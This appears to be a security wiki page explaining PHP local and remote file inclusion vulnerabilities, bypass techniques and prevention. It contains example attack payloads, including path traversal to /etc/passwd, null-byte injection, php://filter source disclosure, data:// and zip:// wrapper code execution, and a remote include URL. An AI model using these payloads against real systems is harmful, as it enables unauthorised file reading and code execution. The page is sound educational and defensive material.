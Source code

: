 # File Inclusion

## File Inclusion vs Directory Traversal

File inclusion vulnerabilities arise when file paths are passed to `include` statements without sanitisation.

It is important to distinguish between file inclusion and [directory traversal](<Directory Traversal.md>) vulnerabilities, as these often get mixed up. A path traversal grants an adversary _direct_ access to arbitrary files - the file is simply treated as if it were in the web root directory, even though it might be outside it.

In contrast, file inclusion allows for the "inclusion" of files in the application's running code. This can manifest in different ways. If the file included is a `.php` script, then a simple file inclusion will _execute_ the PHP code inside it. If the file is not a PHP file, then its contents will be included somewhere on the page.

### Local File Inclusion (LFI)

A _local file inclusion (LFI)_ vulnerability allows for the inclusion of local files, i.e. files which are located on the server itself. Such vulnerabilities can often lead to remote code execution if an adversary can upload to the server a file of their choosing. Another common venue of exploitation is log poisoning, whereby the adversary performs some actions in order to generate certain content in log files and then uses the LFI to execute the log file itself.

The most common place where LFIs occur is in URL file parameters. Consider the following example URL:

```
http://example.com/preview.php?file=index.html
```

If this is vulnerable to LFI, then an adversary can change the `file` parameter in order to include in the web page any file they like. For example, visiting

```
http://example.com/preview.php?file=../../../../../../../etc/passwd`
```

will result in the contents of `/etc/passwd` being displayed somewhere on the `preview.php` web page.

{% hint style="info" %}
If this were a path traversal instead (for example `http://example.com/../../../etc/passwd`), then the above would result in the direct _download_ of the file `/etc/passwd` instead of its contents being included somewhere on the resulting web page.
{% endhint %}

### Remote File Inclusion (RFI)

A _remote file inclusion (RFI)_ vulnerability allows us to include a file located on a remote host which is accessible via HTTP or SMB. They can be discovered by the same techniques used to find LFIs and path traversals, but instead of using a filename directly, one inserts an entire URL:

```
http://example.com/preview.php?file=http://192.168.0.23/pwn.php
```

These are usually rarer because they require specific configurations such as the `allow_url_include` option in PHP.

{% hint style="info" %}
If a host is vulnerable to an RFI, they are usually vulnerable to an LFI as well.
{% endhint %}

## Advanced Techniques

Sometimes exploiting file inclusions is a bit more complicated. Consider the following line of code that may be present on the server:

```php
<?php include($_GET['file'].".php"); ?>
```

The `.php` extension is automatically appended to the result from `$_GET['file']` and so the `include` statement will actually be looking for a PHP file instead of the exact path that we want it to. There are, however, several ways to bypass this.

### Null Byte Injection

This can be bypassed by injecting a null byte at the end of the file path. To achieve this, simply append the URL encoding (`%00`) of a null byte to the end of the file path:

```
http://example.com/preview.php?file=../../../etc/passwd%00
```

A null byte denotes the end of a string and so any characters after it will be ignored. Even though the string (`http://example.com/preview.php?file=../../../etc/passwd%00.php`) that gets passed to `include` still ends in `.php`, this extension is preceded by a null byte and will thus be ignored.

### Path Truncation

Most installations of PHP limit a file path to 4096 bytes. If a file name is longer than this, then PHP simply truncates it by discarding any additional characters. Therefore, the `.php` extension can be dropped by pushing it over the 4096-byte limit. This can be achieved by URL encoding the file, using double encoding and so on.

### Filter Bypass

Sometimes filters are used to try and prevent file inclusions, but these can usually be bypassed using the same techniques used with [directory traversals](<Directory Traversal.md#filter-bypass>)

### PHP Wrappers

PHP wrappers augment file operation capabilities. There are many built-in wrappers which can be used with file system APIs, and developers can also implement custom ones. Wrappers can be found in pre-existing code on the web server or they can be injected by an adversary to enhance and further exploit a file inclusion vulnerability.

#### PHP Filter Wrapper

The `php://filter` wrapper can be used to _display_ the contents of sensitive files with or without encoding. It is especially useful because it allows us to _read_ a PHP file on the server rather than execute it as a typical LFI would.

The basic syntax for the `php://filter` wrapper is

```php
php://filter/ENCODING/resource=FILE
```

The encoding may or may not be present. One common encoding is `convert.base64-encode`.

<details>

<summary>Example</summary>

Using the earlier example, the filter wrapper can allow an adversary to read the contents of the `preview.php` file itself!

```
http://example.com/preview.php?file=php://filter/resource=preview.php
```

The content can also be obtained in a Base64-encoded format by utilising the following payload:

```
http://example.com/preview.php?file=php://filter/convert.base64-encode/resource=preview.php
```

</details>

#### Data Wrapper

The `data://` wrapper embeds content in a plaintext or Base64-encoded format into the code of the running web application and can be used to achieve code execution when we cannot directly poison or upload a PHP file to the server.

{% hint style="info" %}
The `data://` wrapper requires that the `allow_url_include` option is enabled.
{% endhint %}

The plaintext syntax is the following:

```php
data://text/plain,CODE
```

The Base64-encoding can be used to bypass firewalls and filters which remove common payload strings such as `"system"` or `"bash"`:

```php
data://text/plain;base64,BASE64-ENCODED CODE
```

<details>

<summary>Example</summary>

To weaponise the `data://` wrapper in the previous example, an adversary can use the following payload:

```
http://example.com/preview.php?file=data://text/plain,<?php%20echo%20sy
stem('ls');?>
```

This would list the contents of the current directory. Alternatively, they could use the Base64 encoding of the same code:

```
http://example.com/preview.php?file=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oImxzKTsgPz4K
```

</details>

#### Zip Wrapper

The `zip://` wrapper was introduced in PHP 7.2.0 for the manipulation of `zip` compressed files. Its basic syntax is this:

```php
zip://PATH TO ZIP#PATH INSIDE ZIP
```

{% hint style="info" %}
The `#` character is usually used in its URL-encoded form, namely `%23`.
{% endhint %}

The best thing about the `zip://` wrapper is that it does not require the file to have a `.zip` extension. This means that this wrapper can be used to bypass file upload filters by changing the file extension to `.jpg` or any permitted extension.

<details>

<summary>Example</summary>

An adversary can leverage the `zip://` filter by creating a reverse shell in a file `code.php` and then compressing it to `exploit.zip`. If there are any extension filters, then they are free rename the ZIP file to any extension they like but will have to account for this in the final payload. After uploading the malicious ZIP file to the server, they can navigate to it via

```
http://example.com/preview.php?file=zip://uploads/exploit.zip%23code.php
```

The server will then execute the reverse shell inside the malicious file. If the `.php` extension were automatically appended by the server, then one can just change the file name `code.php` to `code` before creating the ZIP archive.

</details>

#### Expect Wrapper

The `expect://` wrapper is _disabled_ by default since it is particularly dangerous, for it allows for direct code execution. Its syntax is

```php
expect://COMMAND
```

The wrapper will execute the `COMMAND` in Bash and return its result.

## Prevention

One should avoid passing user input to file system APIs entirely. If this is absolutely impossible to implement, then user input should be validated before processing. In the ideal case this should happen by comparing the input with a whitelist of permitted values. At the very least, one should verify that the user input contains only permitted characters such as alphanumeric ones.

After such validation, the user input should be appended to the base directory and the file system API should be used canonicalise the resulting path. Ultimately, one should verify that this canonical path begins with the base directory.
